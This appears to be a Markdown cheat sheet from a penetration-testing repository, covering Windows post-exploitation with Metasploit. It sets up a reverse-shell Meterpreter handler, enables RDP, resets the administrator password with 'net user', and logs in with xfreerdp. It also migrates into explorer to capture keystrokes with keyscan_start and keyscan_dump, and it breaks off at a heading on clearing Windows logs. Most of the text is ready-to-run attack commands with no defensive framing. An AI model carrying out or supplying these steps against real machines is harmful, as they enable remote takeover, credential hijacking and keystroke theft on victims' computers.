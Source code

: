 > This will startup a service that we can always connect to via a handler after the current session is terminated.

```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
run
```

> Now if you run this you'll immediately get a meterpreter sessions.

***ALWAYS KEEP IN MIND THE*** **`LHOST`** ***AND*** **`LPORT`** ***OPTIONS***

#### Enabling RDP

```msfconsole
use post/windows/manage/enable_rdp
show options
set RHOSTS <ip-address>
set SESSION <session-id>
run
```

> This will enable the `RDP` service on port `3389`. 

***NOW AFTER THIS WE WOULD HAVE TO CHANGE THE PASSWORD IN ***

```msfconsole
shell
net users
net user administrator <password-any>
```

> This will change the password of the `administrator` user. This can only be done via a privileged access.

```shell
xfreerdp /u:administrator /p:<password-any> /v:<ip-address>
```

> This command can be used from the console of your linux machine in order to interact with the `RCD` of the target machine using the new creds.

#### Windows Keylogging:

***FIRST MIGRATE TO*** **`explorer`** ***PROCESS AND THEN RUN THE KEYLOGGER.***

```msfconsole
pgrep explorer
migrate <pid>
```

> Migration to `explorer`

`keyscan_start`: This will start the key stroke sniffer.
`keyscan_dump`: This will dump all the captured key strokes.

#### Clearing Windows Logs:
